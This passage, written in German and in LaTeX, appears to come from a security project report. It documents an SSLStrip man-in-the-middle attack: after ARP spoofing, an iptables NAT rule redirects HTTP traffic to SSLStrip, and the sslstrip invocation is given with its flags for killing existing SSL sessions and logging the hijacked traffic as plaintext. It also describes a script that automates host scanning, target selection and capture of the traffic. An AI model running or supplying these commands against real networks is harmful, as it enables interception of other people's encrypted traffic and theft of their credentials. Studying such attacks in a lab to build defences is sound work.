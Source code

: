 Nachdem nun mittels ARP-Spoofing alle IP-Pakete vom angegriffenen Client über den Angreifer gesendet werden, müssen die umgeleiteten HTTP-Pakete via IPtables an das Tool SSLStrip weitergereicht werden. Dies geschieht mittels folgendem Eintrag:\\

\begin{lstlisting}[caption=Eintrag in IP-Tables damit HTTP-Pakete an sslstrip weitergereicht werden]
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <listenPort>
Parameter:
	-t nat                 	: Firewall-Gruppe
	-A PREROUTING          	: Regel wird angewandt, BEVOR Paket geroutet wird
	-p tcp                 	: Nur TCP-Pakete
	--destination-port 80  	: Nur Pakete auf Port 80 (http)
	-j REDIRECT            	: Legt Aktion fest, also Weiterleitung
	--to-port <listenPort> 	: Port auf dem SSLStrip lauscht.
\end{lstlisting}


Nun muss noch SSLStrip selbst gestartet werden. Dies geschieht mittels folgender Eingabe:
\begin{lstlisting}[caption=Erforderliche Parameter für SSLStrip]
sslstrip -a -k -l <listenPort> -w <logpath>
Parameter:
	-s : Gesamter SSL Traffic wird gelogged
	-p : Nur SSL POST Traffic wird protokolliert
	-a : SSL- und HTTP-Traffic wird aufgezeichnet
	-k : Bestehende SSL-Verbindungen terminieren, damit diese neu aufgebaut werden
	-l : Port auf dem SSLStrip lauscht. Muss identisch zu --to-port bei iptables-Eintrag sein
	-w : Pfad in dem gehijackter HTTPS-Traffic im Klartext abgespeichert wird
\end{lstlisting}
	
\subsection*{Benutzung von SSLStrip-Skript}
Zur Automatisierung wurden vorangegangene Befehle in einem Skript automatisiert. Nachdem SSLStrip im Auswahlmenü selektiert wurde, wird zuerst nach der Netzwerkschnittstelle gefragt, in der Angreifer und Zielclient sich befinden. Anschließend wird das ausgewählte Netzwerk nach aktiven Hosts gescannt und aufgelistet. Im folgenden Schritt wird die Ziel-IP-Adresse des anzugreifenden Clients eingegeben, gefolgt von der IP-Adresse des Gateways für ARP-Spoofing. Abschließend werden die erforderlichen Konfigurationen für SSLStrip-Attacke im Hintergrund durchgeführt und der mitgeschnittene HTTPS-Verkehr im Klartext in der LOG-Datei abgerufen werden.
 
